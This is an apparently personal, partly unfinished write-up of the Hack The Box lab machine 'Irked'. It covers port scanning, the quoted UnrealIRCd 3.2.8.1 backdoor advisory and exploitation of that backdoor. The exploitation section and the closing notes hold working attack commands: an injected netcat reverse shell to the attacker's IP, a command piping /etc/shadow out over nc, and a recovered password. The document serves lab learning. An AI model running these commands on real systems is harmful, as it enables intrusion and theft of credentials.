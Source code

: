 <link href="../styles.module.css" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">
<link rel="preconnect" href="https://fonts.googleapis.com">
<link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
<link href="https://fonts.googleapis.com/css2?family=Cedarville+Cursive&family=Encode+Sans+SC&family=Zen+Tokyo+Zoo&display=swap" rel="stylesheet">


## <span class="copyright">Machine #2<span style="float:right;">By Shatha Barqawi</span>

<br/><br/>

# <span class="title">Irked


<span class="date">Wednesday & Friday, 21 & 23/7/2021</span> 


<br/> 

### <span class="irkedmach subtitle">Could Be Relevant and Could Be Not  
   * ###  <span class="irkedmach subtitle">Nmap
        * Normal Scan    
           ```console
           nmap -Pn 10.10.10.117
           ```
           
           ```console
           PORT    STATE SERVICE
           22/tcp  open  ssh
           80/tcp  open  http
           111/tcp open  rpcbind
           ```
       * Full Scan   
          ```console
          nmap -Pn -p- 10.10.10.117
          ```    
         ```console
         PORT      STATE SERVICE
         22/tcp    open  ssh
         80/tcp    open  http
         111/tcp   open  rpcbind
         6697/tcp  open  ircs-u
         8067/tcp  open  infi-async
         49889/tcp open  unknown
         65534/tcp open  unknown
         ```  
   * ###  <span class="irkedmach subtitle">Banner Grabbing
      * HTTP `p80`
         ```console
         PORT   STATE SERVICE VERSION
         80/tcp open  http    Apache httpd 2.4.10 ((Debian))
         ```
         We now know the version of the http server we have.  

       * RPCBIND `p111`  
         ```console
         PORT    STATE SERVICE VERSION
         111/tcp open  rpcbind 2-4 (RPC #100000)
         ```  
       * SSH `p22`  
         ```console
         PORT   STATE SERVICE VERSION
         22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
         Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
         ```
         I got the version of the OS from this. There could be an exploit for the OS's kernel but not this time.

       * IRC `p6697`  
         ```console
         PORT     STATE SERVICE VERSION
         6697/tcp open  irc     UnrealIRCd
         Service Info: Host: irked.htb
         ```
       * IRC `p8067 & p65534`  
         ```console
         PORT      STATE SERVICE VERSION
         8067/tcp  open  irc     UnrealIRCd
         65534/tcp open  irc     UnrealIRCd (Admin email djmardov@irked.htb)
         Service Info: Host: irked.htb
         ```   
   * ###  <span class="irkedmach subtitle">Searchsploiting Shit      
       * Searchsploiting `rpcbind`  
         Resulted in exploits that are all DoS attacks which are no use to me right now.  

       * Searchsploiting `irc version (UnrealIRCd) `  
         The backdoor listed is the one I used to get into the unreal server   
         ```console
         UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit) 
         UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow 
         UnrealIRCd 3.2.8.1 - Remote Downloader/Execute 
         UnrealIRCd 3.x - Remote Denial of Service
         ``` 


<br/><br/> 

### <span class="irkedmach subtitle">Useful Info

* ###  <span class="irkedmach subtitle">Terminologies  
     * What does IRC mean?  
        According to *TRENDMICRO*  

        <blockqoute>

        *Internet Relay Chat (IRC) is a network of Internet servers that use a specific protocol through which individuals can hold real-time online conversations via PCs and other devices. Many of today’s botnets utilize IRC to communicate with bot-infected machines.*
        </blockqoute>

     * What is rpcbind?  
        The rpcbind utility is a server that converts RPC program numbers
        into universal addresses.  It must be running on the host to be
        able to make RPC calls on a server on that machine.

    * What is a socket (check the stackexchange bookmarked page).

* ###  <span class="irkedmach subtitle">Web Server  
    * Only found the following page  
    <img src="irked_http.png">
    * We use the image later with `stegsnow` to reveal the steganographed password inside of it.

* ###  <span class="irkedmach subtitle">UnrealIRCD Service  
    * Found this online  
      <blockquote>
      Hi all,

      This is very embarrassing...
      
      We found out that the Unreal3.2.8.1.tar.gz file on our mirrors has been
      replaced quite a while ago with a version with a backdoor (trojan) in
      it. This backdoor allows a person to execute ANY command with the
      privileges of the user running the ircd. The backdoor can be executed
      regardless of any user
      restrictions (so even if you have passworded server or hub that doesn't 
      allow
      any users in).

      It appears the replacement of the .tar.gz occurred in November 2009 (at 
      least on some mirrors). It seems nobody noticed it until now.

      Obviously, this is a very serious issue, and we're taking precautions
      so this will never happen again, and if it somehow does that it will be 
      noticed quickly.
      We will also re-implement PGP/GPG signing of releases. Even though in 
      practice
      (very) few people verify files, it will still be useful for those
      people who do.
      </blockquote>
      <blockquote>
      Safe versions

      The Windows (SSL and non-ssl) versions are NOT affected.

      CVS is also not affected.

      3.2.8 and any earlier versions are not affected.

      Any Unreal3.2.8.1.tar.gz downloaded BEFORE November 10 2009 should be 
      safe, but you should really double-check, see next.

      How to check if you're running the backdoored version
      </blockquote>
      <blockquote>
      Two ways:

      One is to check if the Unreal3.2.8.1.tar.gz you have is good or bad by 
      running 'md5sum Unreal3.2.8.1.tar.gz' on it.
      Backdoored version (BAD) is: 752e46f2d873c1679fa99de3f52a274d
      Official version (GOOD) is: 7b741e94e867c0a7370553fd01506c66

      The other way is to run this command in your Unreal3.2 directory:
      grep DEBUG3_DOLOG_SYSTEM include/struct.h
      If it outputs two lines, then you're running the backdoored/trojanized 
      version.
      If it outputs nothing, then you're safe and there's nothing to do.

      What to do if you're running the backdoored version


      Obviously, you only need to do this if you checked you are indeed 
      running the
      backdoored version, as mentioned above. Otherwise there's no point in 
      continuing, as the version on our website is (now back) the good one 
      from April 13 2009 and nothing 'new'.
      </blockquote>
     * The backdoor exploit that the current UnrealIRCD version is vulnerable to which is, after intiating the connection to the server with `nc` on one of the 3 irc ports `p8067,p65534 & p6697`, we get the following two messages after they're viewed as mentioned before I can write the following and it will get executed
        ```console
        nc -nv 10.10.10.117 8067
        ```  
        ```console
        (UNKNOWN) [10.10.10.117] 8067 (?) open
        :irked.htb NOTICE AUTH :*** Looking up your hostname...
        :irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
        AB;nc -nv 10.10.14.8 5555 -e /bin/bash
        ```
        So here the nc will get executed and of course having my machine listening on port 5555 I get remote code execution.


### <span class="irkedmach subtitle">Why I Got Stuck?  




<br/><br/>

### <span class="irkedmach subtitle">Nice Things I Found in Someone Else's Write Up  
  

<br/><br/>
____________________________
unfinished notes  

AB;nc -l -p 1234 > irked.jpg
nc -w 3 10.10.14.8 1234 < irked.jpg

AB;cat /etc/shadow | nc 10.10.14.8 1234
nc -w 3 10.10.14.8 1234 < unreal32docs.html

$ sudo chmod +x /bin/stegcracker what is the +x???

A password!!! UPupDOWNdownLRlrBAbaSSss

UPDOWNLRBASS
updownlrbass

Kab6h+m+bbp2J:HG